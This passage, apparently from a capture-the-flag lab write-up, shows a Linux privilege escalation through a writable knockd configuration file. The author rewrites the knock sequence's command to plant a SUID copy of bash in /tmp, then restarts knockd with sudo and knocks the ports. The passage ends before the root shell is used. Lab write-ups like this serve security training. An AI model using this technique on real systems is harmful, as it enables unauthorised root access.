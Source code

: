 In user `dev1`, **we can run `/etc/init.d/knockd`startups script as root**!

```shell
dev1@incognito:~$ sudo /etc/init.d/knockd
 * Usage: /etc/init.d/knockd {start|stop|restart|reload|force-reload}
```

**However, we don't have write access to it, so we couldn't swap the `knockd` SH script to our evil script:**
```shell
dev1@incognito:~$ cd /etc/init.d/
dev1@incognito:/etc/init.d$ ls -lah knockd
-rwxr-xr-x 1 root root 1.8K Oct  8  2016 knockd
```

**Hmm... How about `/etc/knockd.conf`?**
```shell
dev1@incognito:/etc/init.d$ ls -lah /etc/knockd.conf
-rw-rw-r--+ 1 root root 349 Jun 11  2021 /etc/knockd.conf
```

We have write access to it!

**Armed with above information, we can modify the `command` key's value to add a SUID sticky bit to `/bin/bash`:**
```shell
dev1@incognito:/etc/init.d$ nano /etc/knockd.conf 
[options]
	logfile = /var/log/knockd.log

[openSSH]
	sequence    = 5020,6120,7340
	seq_timeout = 15
	command     = /bin/bash -c 'cp /bin/bash /tmp/root_bash;chmod +s /tmp/root_bash'
	tcpflags    = syn

[closeSSH]
	sequence    = 9000,8000,7000
	seq_timeout = 15
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
	tcpflags    = syn
```

**Then, restart `knockd` and knock port `5020`, `6120`, `7340` again:**
```shell
dev1@incognito:/etc/init.d$ sudo /etc/init.d/knockd restart
[ ok ] Restarting knockd (via systemctl): knockd.service.
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|14:23:24(HKT)]
└> knock -v $RHOSTS 5020 6120 7340
hitting tcp 10.10.115.32:5020
hitting tcp 10.10.115.32:6120
hitting tcp 10.10.115.32:7340
```
